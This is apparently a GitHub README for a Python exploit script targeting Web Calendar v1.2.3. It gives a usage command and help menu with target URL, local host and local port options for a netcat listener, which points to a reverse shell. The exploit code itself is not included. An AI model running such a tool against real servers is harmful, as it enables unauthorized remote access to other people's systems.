

# WebCalendarv1.2.3
Script written in python to exploit Web Calendar v1.2.3.

<hr>

#### 1. Usage:
```
$ python3 webcalendar.py -u <ip> -l <local_host> -p <local_port>
```

#### 2. Help Menu:
```
usage: webcalendar.py [-h] [-u URL] [-l LHOST] [-p LPORT]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Url of the webcalendar
  -l LHOST, --lhost LHOST
                        Local host for netcat listener
  -p LPORT, --lport LPORT
                        Local port for netcat listener
```

#### 3. Example:

